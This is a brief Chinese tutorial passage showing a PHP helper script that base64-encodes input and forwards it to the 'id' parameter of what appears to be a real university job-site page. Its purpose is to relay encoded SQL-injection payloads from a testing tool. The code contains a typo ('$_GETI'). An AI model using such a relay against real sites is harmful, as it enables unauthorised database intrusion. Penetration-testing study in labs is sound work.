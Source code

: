 假设我们的工具没有对应的插件、脚本，那么就需要我们自己来写一个脚本，这里以PHP的代码为例。

```
存放脚本的名称为test.php

&lt;?php

$url='http://job.gxu.edu.cn/job_bystjb/yjs_byszjs.asp?id=';
$payload=base64_encode($_GETI['x']);
echo $payload;
$urls=$url.$payload;
file_get_contents($urls);
echo $urls;

?&gt;
```

通过靶场靶场与刚刚写的脚本进行结合即可。
